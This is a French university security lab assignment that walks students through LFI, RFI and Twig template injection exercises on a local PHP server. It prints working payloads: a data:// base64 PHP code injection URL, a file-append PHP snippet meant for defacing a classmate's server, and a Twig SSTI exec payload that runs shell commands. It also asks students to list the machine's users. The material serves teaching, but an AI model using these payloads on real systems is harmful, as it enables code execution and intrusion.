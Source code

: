 # TP - Sécurité LFI, RFI et Template Injection
- **Auteur :** DESBOUYS Maxence, MAGALHAES Thomas, THEUWS Gabriel et VALENTIN Guillaume
- **Année :** 2021 -2022
- **Date de rendu :** 2 février 2022 (1 semaine pour le faire)
- **Adresse mail du compte rendu :** thomas.magalhaes@etu.uca.fr
- **Le rendu :** un document .txt ou .pdf répondant aux questions

# Disclaimer
Tous les éléments que vous verrez dans ce TP ont été "patchés" dans les versions les plus récentes. De plus, vous êtes seul responsable de l’usage que vous pourriez faire de ces techniques sur des sites tiers, elles vous sont présentées ici à des fins éducatives.

# Le tp
### Mise en place :

 - Récupérer le dépôt
 - Vérifiez que vous avez php sur votre machine *(php est déjà présent à l'iut)*
 - Lancer la commande qui suit à la racine de ce projet afin de démarrer un serveur php
   ``` php --php-ini php.ini -S localhost:3054 ```
  - Utilisez votre navigateur préféré et allez sur l’url.
  [http://localhost:3054/](http://localhost:3054/)

### Les astuces
Astuce regarder : Null Byte Injection
   
### Exercice n°1 LFI
Cliquez sur "Exo 1 LFI"

**Votre mission : ~~(si vous l'acceptez)~~**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page.
Notez l'url saisie dans votre compte rendu.

### Exercice n°2 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page. 
Notez l'url saisie dans votre compte rendu.

### Exercice n°3 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cibleHaute.secu" .
Ce dernier est situé à un niveau plus haut dans l'arborescence. 
Notez l'url saisie dans votre compte rendu.
Dans le même temps,  trouver un moyen de récupérer tous les utilisateurs de la machine.
Notez l'url saisie dans votre compte rendu ainsi que le résultat.

---

### Exercice n°1 RFI
Cliquez sur "Exo 1 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

### Exercice n°2 RFI
Cliquez sur "Exo 2 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

### Exercice n°3 RFI
Cet exercice ce fait avec un autre binôme/collègue. Si vous n'en n'avez pas ou qu'il n'est pas à cet exercice, nous mettrons en place un serveur accessible par l'intranet.

#### Mise en place pour le serveur :
1. Trouvez l'adresse IPv4 de votre machine (pour l'avoir en mémoire)
2. Créer un fichier index.php qui possède un titre h1 et une inclusion de fichier sans vérification de l’entrée. Vous pouvez faire comme [l'index.php de l'exercice 1](/exo_rfi/index.php).
3. Lancer votre serveur PHP en précisant l'IPv4 de votre machine au lieu de localhost. Ansi, votre serveur est mis à la disposition de tout l'IUT.

#### Protocole à suivre pour le client :
1. Avec votre navigateur préféré, obtenir la page d'accueil du binôme/collègue avec lequel vous travaillez.
2. Puisque vous connaissez sa faille, autant l'exploiter ~~(la faille du serveur)~~ en injectant de l'HTML ou du PHP de votre choix. Si vous n'avez vraiment pas d'idée, prenez ce [index.html](https://github.com/LINCnil/Guide-RGPD-du-developpeur/blob/main/index.html).
```pour obtenir le lien brut, cliquez sur le bouton 'raw'```

### Exercice n°3 RFI suite
```diff
-Il maitenant temps de jouer !!!
```

Mais avant des explications qui vont seront utiles pour votre périple.

L'url suivant permet d'afficher le phpinfo() sur serveur ciblé.
```
http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```
La première partie (```http://localhost:3054/exo_rfi/?file=```) correspond à la partie dite "normale".

La seconde partie (```data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B```) correspond à la partie saisie par l'utilisateur.

>data://text/plain;base64,

Permet d'envoyer au serveur du text en base 64 (utile pour l'attaque)

>PD9waHAgcGhwaW5mbygpOz8

Correspond ici a ```<?php phpinfo();?>```  en base 64

>%2B

Termine l'url 

Pour trouver la correspondance en base 64 de votre code php
[https://www.base64url.com/](https://www.base64url.com/)

(Il faut retirer les caractères "+","-" et "=" si il y en a à la fin)

```
input: <?php echo "bonjour"; ?>
result: PD9waHAgZWNobyAiYm9uam91ciI7ID8+
result clean: PD9waHAgZWNobyAiYm9uam91ciI7ID8
url final : http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgZWNobyAiYm9uam91ciI7ID8%2B
```

**Votre mission :**

Vous allez devoir rajouter à l'index du serveur d'autre personne vos noms.

Le script php qui suit vous permet d'ajouter en fin de fichier du texte.
Utilisez le pour ajouter vos prénoms dans l'index du serveur ciblé. 
```php
<?php
$file = ''; 
$text = "";
file_put_contents($file, $text, FILE_APPEND | LOCK_EX);
//echo "lancement de l'attaque";
?>
```
Notez l'url saisie dans votre compte rendu ainsi que les étapes pour l'obtenir.

---
### Exercice n°1 SSTI

pour commencer vous devrez cloner le repot git : https://github.com/GoSecure/template-injection-workshop
puis lancer votre machine VDN et créez une passerelle sshfs jusqu'au dossier `template-injection-workshop/12_template_twig_php/`. 
Ensuite vous lancerez un docker dans le fichier `12_template_twig_php` et vous vous y connecterez via le port `8012` de local host (127.0.0.1):
```bash
$ vdn docker-tmp

vdn:...$ sshfs {login}@{ip_machine}:/home/etud/{login}/{path to template-injection-workshop/12_template_twig_php/}
vdn:.../12_template_twig_php$ docker-compose up

vdn:...$ links http://localhost:8012/
 ### ou ###
vdn:...$ links 127.0.0.1:8012/
```
ensuite lancer Vdn et enfin faite un links 127.0.0.1:8012


**Votre mission :**

une fois cela fait votre mission consite à récupérer le flag en utilisant une template injection.

### Aide
La commande suivante vous sera utile dans votre recherche du flag: ``{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `ls /`")}}``
